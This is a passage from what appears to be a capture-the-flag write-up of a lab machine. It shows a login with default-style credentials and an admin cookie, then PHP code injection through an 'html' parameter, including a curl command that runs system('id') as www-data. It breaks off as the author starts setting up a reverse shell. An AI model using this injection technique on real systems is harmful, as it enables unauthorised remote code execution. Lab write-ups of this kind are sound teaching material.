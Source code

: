 Entering the username “admin” and the password “skoupidotenekes” returns cookie and a no-delay refresh:

```

HTTP/1.1 200 OK
Date: Mon, 24 Aug 2020 11:07:15 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: adminpowa=noonecares
refresh: 0;
Vary: Accept-Encoding
Content-Length: 451
Connection: close
Content-Type: text/html; charset=UTF-8

```

#### /admin.php w/ Cookie

On refresh, the browser is still at `/admin.php`, but now the content is different:

![image-20200824071443934](https://0xdfimages.gitlab.io/img/image-20200824071443934.png)

If I enter some HTML like `<b>0xdf</b>` and submit, that shows up at the end of the page with the HTML rendered (`<b>` makes the text bold):

![image-20200824071645798](https://0xdfimages.gitlab.io/img/image-20200824071645798.png)

Entering PHP seems to evaluate, such as `<?php echo "test"; ?>` just prints “test”:

![image-20200824071739021](https://0xdfimages.gitlab.io/img/image-20200824071739021.png)

## Shell as www-data

### Execution

I just showed that PHP is being executed. I can use `system` to run commands. For example, entering `<?php system("id"); ?>` shows that it’s running as www-data:

```

root@kali# curl -s -G http://10.10.10.27/admin.php --data-urlencode 'html=<?php system("id"); ?>' --cookie adminpowa=noonecares | sed -e '1,/<\/body><\/html>/ d'
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

I’m using `sed` here to remove all the content up to `</body></html>` at the end to just get the output. I’m also using `curl` with `-G` and `--data-urlencode` to url encode parameters in the GET request.

### RevShell Fail

With execution, rather than enumerate through this webshell, I’d rather get a legit shell. I started `nc` listening on my host, and ran a Bash reverse shell:
